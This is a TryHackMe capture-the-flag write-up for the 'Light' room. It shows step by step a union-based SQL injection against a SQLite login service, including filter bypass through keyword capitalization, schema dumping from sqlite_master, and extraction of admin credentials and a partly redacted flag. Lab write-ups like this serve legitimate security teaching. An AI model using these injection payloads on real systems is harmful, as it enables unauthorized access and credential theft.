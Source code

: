 ```yaml
---
title: "TryHackMe: Light"
author: c3l1kd
categories: [TryHackMe]
tags: [sql, sql injection, sqlite]
render_with_liquid: false
img_path: /images/tryhackme_light/
image:
  path: room_image.webp
---
```


**Light** was a simple room where we exploited an `SQL` injection in a `SQLite` database to retrieve the credentials for the admin user and a flag.

[![Tryhackme Room Link](room_card.webp){: width="300" height="300" .shadow}](https://tryhackme.com/r/room/lightroom){: .center }

## Discovering the SQL Injection

As per the room instructions, after connecting to the service on port `1337`, we encounter a database application.

```console
$ rlwrap nc 10.10.67.194 1337
Welcome to the Light database!
Please enter your username:
```

The room also instructs us to use the username `smokey` to begin, and upon entering it, we retrieve the password for the user.

```console
Please enter your username: smokey
Password: vYQ5ngPpw8AdUmL
```

Since it is a database application, if we try a simple `SQL` injection with `'`, we see that it is successful as we get the error: `Error: unrecognized token: "''' LIMIT 30"`.

```console
Please enter your username: '
Error: unrecognized token: "''' LIMIT 30"
```

Trying a union-based injection and commenting out the `' LIMIT 30` part with `--`, we encounter an interesting error stating that `/*`, `--`, or `%0b` are not allowed.

```console
Please enter your username: ' UNION SELECT 1-- -
For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)
```

Instead of trying to comment out the last part due to the `'` causing errors, since `SELECT 1 ''` is a valid query, we can turn the query into `UNION SELECT 1 '' LIMIT 30` by appending `'` to our payload as `' UNION SELECT 1 '`. As we can see, this works, but this time we encounter an interesting error about certain words not being allowed.

```console
Please enter your username: ' UNION SELECT 1 '
Ahh there is a word in there I don't like :(
```

It seems the `UNION` and `SELECT` keywords are not allowed, but we can easily bypass this filter by using capitalization.

```console
Please enter your username: UNION
Ahh there is a word in there I don't like :(
Please enter your username: SELECT
Ahh there is a word in there I don't like :(
Please enter your username: Union
Username not found.
Please enter your username: Select
Username not found.
```

As we can see now, with the payload `' Union Select 1 '`, we are successful with a union-based injection.

```console
Please enter your username: ' Union Select 1 '
Password: 1
```

## Identifying the DBMS

With the union-based injection we have, if we attempt to identify the database management system, we discover it is `SQLite`.

```console
Please enter your username: ' Union Select version() '
Error: no such function: version
Please enter your username: ' Union Select USER_ID(1) '
Error: no such function: USER_ID
Please enter your username: ' Union Select sqlite_version() '
Password: 3.31.1
```

## Dumping Database Structure

Now that we know the DBMS is `SQLite`, we can use the payload `' Union Select group_concat(sql) FROM sqlite_master '` to extract the database structure, as shown below:

```console
Please enter your username: ' Union Select group_concat(sql) FROM sqlite_master '
Password: CREATE TABLE usertable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER),CREATE TABLE admintable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER)
```

## Extracting Data

Since our goal is to find the credentials for the admin user, we can dump the `username` and `password` fields from the `admintable` using the payload `' Union Select group_concat(username || ":" || password) FROM admintable '` and this not only gives us the credentials but also the flag, allowing us to complete the room.

```console
Please enter your username: ' Union Select group_concat(username || ":" || password) FROM admintable '
Password: Tr[REDACTED]in:ma[REDACTED]17,flag:THM{SQ[REDACTED]O?}
```
{: .wrap }

<style>
.center img {        
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}
</style>